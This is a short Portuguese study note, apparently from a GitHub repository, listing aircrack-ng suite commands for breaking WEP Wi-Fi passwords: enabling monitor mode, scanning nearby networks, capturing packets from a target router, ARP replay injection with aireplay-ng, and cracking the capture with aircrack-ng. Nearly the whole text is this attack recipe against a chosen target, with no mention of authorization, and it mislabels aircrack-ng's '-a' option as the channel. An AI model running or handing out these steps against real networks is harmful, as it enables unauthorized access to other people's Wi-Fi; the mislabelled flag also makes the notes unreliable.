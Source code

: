 - adaptador wireless ou placa de rede que vem no notebook para testes
- iwconfig

### processo para habilitar modo monitor de seu adaptador wireless
- airmon-ng check
- airmon-ng check kill
- airmon-ng start wlan0

obs: modo monitor é necessario para listar todas as redes wifi próximas

### listar redes wifi disponiveis perto

- airodump-ng wlan [nome de sua interface wireless]
- ---
- BSSID é o endereço MAC dos roteadores
- PWR é o nivel de intensidade das redes listadas
- Beacons são os chamados envios do roteador
- Data são os dados que se da pra interceptar
- MB conectividade
- ENC tipo de criptografia (obs: visto em algumas aulas que a criptografia WEP que é bem antiga e legada)
- ESSID nome da rede
- ---

### começando a dar uma brincada
- airodump-ng -c [canal, por exemplo "1"] [nome de sua interface wireless]  (travar conectividade em um determinado tipo de canal wireless, util pra quando se quer fazer algo nela sem que haja oscilação)
- airodump-ng -c [canal, por exemplo "1"] --bssid [endereço MAC roteador alvo] -w [nome do arquivo que vc quer que salve tudo o que for capturado] [nome da sua interface wireless]  (captura alguns pacotes de autenticação ou outras informações uteis, lembrando que esse comando é mais focado para ENC WEP)

### arp injection via ENC WEP (o mais simples) para gerar dados a rede alvo

esse comando foca em enviar dados adcionais a outros roteadores fazendo se passarem por eles mesmos usando o station deles, isso é útil para gerar pacotes adcionais de dados para usarmos o aircrack e assim possivelmente conseguir quebrar a senha wifi do alvo)

- aireplay-ng -3 -b [bssid] -h [station de um dos bssid encontrados no comando acima] [nome da sua interface wireless]

### air crack para quebra de senhas wifi (ENC WEP o mais simples, legado)

- aircrack-ng -a [canal, por exemplo "1"] [nome-do-arquivo-que-vc-salvou-no-airodump-.cap]


  
